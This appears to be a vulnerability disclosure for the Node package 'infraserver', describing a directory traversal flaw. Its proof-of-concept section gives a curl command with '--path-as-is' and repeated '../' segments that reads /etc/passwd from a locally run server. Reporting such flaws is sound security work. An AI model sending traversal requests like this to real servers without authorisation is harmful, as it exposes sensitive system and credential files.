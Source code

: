 # Description

`infraserver` is a data server, this package is vulnerable against Directory Traversal, which may allow access to sensitive files and data on the server.
 For example, requesting the following URL: `/../../etc/passwd` would result in `/etc/passwd` leaking.


# POC

  1. Start the server
    `node server/Infra.data.js`
  2. `curl -v --path-as-is http://127.0.0.1:46372/../../../../../../../../../../../etc/passwd`
  3. `/etc/passwd` from the server will be displayed to the user.
